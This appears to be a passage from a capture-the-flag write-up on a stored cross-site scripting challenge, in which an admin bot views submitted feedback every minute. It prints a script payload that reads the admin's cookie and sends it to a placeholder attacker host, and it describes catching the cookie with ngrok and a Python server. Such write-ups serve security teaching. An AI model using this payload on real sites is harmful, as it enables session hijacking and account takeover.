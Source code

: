 With this information, it can be inferred that the goal is access the `View Comments` page with as the "admin". Additionally, it can be inferred that any comments we submith on the `Give Feedback` page will be displayed to the admin on the `View Comments` page. 

The description for the challenge: 

```
This website seems to be constantly monitored. In fact, the web traffic logs indicate that this website is checked once every minute.

We have reliable intel that the protected portion of this website holds information about the vault. But it seems that only the admin can see the protected part of this page.
```

Tells us that the `View Comment` page is viewed once every minute. So whatever payload is inserted will be executed by the victim within a minute. 

To move forward, let's inject some malicious javascript in to the feedback. This javascript should try to steal the admin user's cookie and send it back to the attacker. 

The way this will work is:

![Web 400](images/web400-3.png)

There are many ways to inject javascript into a page, but the most common is to use the `<script>` tag. 

Here is an example of the javascript that could be used to send the admin cookie:

```
<script> var cookie = document.cookie;var xhr = new XMLHttpRequest();xhr.open('GET', 'http://<attacker_ip_address>/test?cookie='+cookie, true);xhr.send();</script>
```

Before we inject this code into the comment section, we need to establish a way to catch the cookie once it is sent to the attacker. There are many ways to do this, but the jist is that the attacker needs a port open to the internet that can listen for incoming requests (like a web server). 

In this example, we will use [ngrok](https://ngrok.com/) to expose a service to the internet and a simple [python web server](https://docs.python.org/3/library/http.server.html) to handle the incoming request.
